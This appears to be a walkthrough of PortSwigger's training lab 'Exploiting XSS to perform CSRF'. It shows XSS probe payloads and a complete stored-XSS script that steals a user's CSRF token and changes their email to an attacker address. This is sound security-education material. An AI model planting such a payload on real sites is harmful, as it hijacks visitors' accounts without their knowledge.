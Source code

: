 # Write-up: Exploiting XSS to perform CSRF @ PortSwigger Academy

![logo](img/logo.png)

This write-up for the lab *Exploiting XSS to perform CSRF* is part of my walk-through series for [PortSwigger's Web Security Academy](https://portswigger.net/web-security).

Learning path: Client-side → Cross-site scripting (XSS)

Lab-Link: <https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)  

## Lab description

![lab_description](img/lab_description.png)

## Steps

### Analysis

As usual, the first step is to analyze the functionality of the lab application, in this case, a blog website.

### Find stored XSS

There is one place within the public pages where any visitor can add content: the comment sections under each article (the lab description already states where it is, but it is the only place to store something anyway).

So I try if I am able to insert HTML tags within the fields:

![inserted_html](img/inserted_html.png)

![inserted_html_result](img/inserted_html_result.png)

In the name, the tags are properly encoded. However, my tags within the comment appear to get inserted directly back into the page content.

As a next step I want to find the answer to two questions:

- Can I insert a full script block?
- Can I add a script within an `<img>` tag?
- Are there any relevant characters that are blocked or encoded so that I can not use them in the XSS?

To find these answers, I use the following payload:

```
<script>alert(document.domain)</script>
<img src=x onerror='alert(document.domain)' />
xX';!--"<XSS>=\&{()}<br />Xx
```

![xss_answers](img/xss_answers.png)

When I view the comment, I get both alert boxes and see all characters in the HTML source. I found my place for inserting the stored XSS.

---

### Find out how to change email

Now it is time to use the provided credentials and log in as a `wiener`. The objective of the lab is to change the email of a victim, so I look at how this works:

![email_change](img/email_change.png)

The request is protected by a CSRF token which is stored in a hidden input field of the email change form.

Generally speaking, such a token is the proper way to protect against CSRF attacks and browsers will prevent me from reading content via JavaScript from other origins.

In this case, however, I have an XSS vulnerability at hand where this restriction does not apply as it is running at the very same origin.

---

### Chain the vulnerabilities

To get things working, I need to chain these vulnerabilities together:

- A CSRF attack that sends the request to change the email
- The stored XSS obtains the CSRF token and delivers that CSRF attack

My XSS needs to extract the CSRF token from the `/my-account` page. The most flexible way is to use a regular expression to both parse through the HTML and return the token. 

A quick search brought me to the documentation of [match](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/match) and how to interpret its return value:

![match_docu](img/match_docu.png)

To find the proper expression I turn to [regex101](https://regex101.com/), using the full HTML source of the account page as the test string.

![regex_crafter](img/regex_crafter.png)

With this tool, I find my regex to be `csrf" value="(\w+)"`. Not using the `g` flag ensures that the CSRF token is included in the result of the match as the second item in the return array of `match`

---

### The malicious comment

Now is the time to put everything together. My XSS comment now looks like this:

```html
<script>
var r = new XMLHttpRequest();
r.onload=function() {
    csrf = this.responseText.match(/csrf" value="(\w+)"/)[1];
    var attack = new XMLHttpRequest();
    attack.open("POST", "https://0a74007e040c37b4c0f5013c009600e3.web-security-academy.net/my-account/change-email", true);
    attack.send("email=mail@evil.me&csrf=" + csrf);
}
r.open("GET", "https://0a74007e040c37b4c0f5013c009600e3.web-security-academy.net/my-account", true);
r.withCredential = true;
r.send();
</script>
```

First, it gets the account website. From the result, it extracts the CSRF token and issues another request to the email change functionality. 

![malicious_comment](img/malicious_comment.png)

Right after sending the comment, the lab updates to

![success](img/success.png)

After manually accessing the comment page and going to the account page I can verify that the email was indeed changed by just viewing the comment:

![verify_changed_email](img/verify_changed_email.png)

---

If you found this article helpful, please give it a clap. To get notified of more write-ups, follow me on [GitHub](https://github.com/frank-leitner) or [medium](https://medium.com/@frank.leitner).
